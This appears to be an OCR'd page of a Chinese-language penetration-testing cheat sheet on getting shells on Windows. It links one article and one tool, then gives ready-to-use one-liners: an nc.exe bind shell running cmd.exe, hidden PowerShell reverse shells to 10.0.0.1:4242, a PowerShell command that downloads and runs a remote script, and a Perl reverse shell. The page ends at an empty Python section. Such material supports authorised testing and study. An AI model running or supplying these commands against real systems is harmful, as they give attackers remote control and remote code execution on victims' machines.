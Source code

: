 本部分总结一些获取 shell 的方法和过程

## Windows

### Windows下回弹shell

**文章**
- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)

**工具**
- [lukechilds/reverse-shell](https://github.com/lukechilds/reverse-shell) - 自动尝试反弹 shell

**nc**

`路径\nc.exe -l -p 端口 -t -e 路径\cmd.exe`

```
c:\RECYCLER\nc.exe -l -p 1234 -t -e c:\RECYCLER\cmd.exe
```

**powershell**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

**perl**
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**python**
```powershell
```